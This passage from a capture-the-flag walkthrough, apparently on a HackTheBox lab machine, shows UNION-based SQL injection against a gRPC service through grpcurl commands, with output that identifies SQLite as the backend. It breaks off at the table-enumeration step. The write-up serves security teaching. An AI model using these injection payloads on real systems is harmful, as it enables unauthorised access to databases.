 

That could be SQL injection, but it could just as easily be that there
is no user with id `320'`. I'll try adding a `UNION` statement to see if
I can inject data:



    oxdf@hacky$ grpcurl -d "id: \"320' union select 1\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    ERROR:
      Code: Unknown
      Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation



Still nothing. Interestingly, if I remove the `'`, there's injection:



    oxdf@hacky$ grpcurl -d "id: \"320 union select 1\"" -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "1"



That means that the SQL query is something like
`select * from table where userid = {input}`, and the `input` is an
integer, so it isn't wrapped in `"` or `'`.

### Enumerate DB

#### Identify DB

I'll replace the 1 with `user()` and `version()`, but both break:



    oxdf@hacky$ grpcurl -d 'id: "320 union select user()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    ERROR:
      Code: Unknown
      Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation
    oxdf@hacky$ grpcurl -d 'id: "320 union select version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    ERROR:
      Code: Unknown
      Message: Unexpected <class 'TypeError'>: bad argument type for built-in operation



This might not be MySQL. It could be SQLite. I'll try
`sqlite_version()`, and it works:



    oxdf@hacky$ grpcurl -d 'id: "320 union select sqlite_version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
    message: "3.31.1"



#### Get Table Names
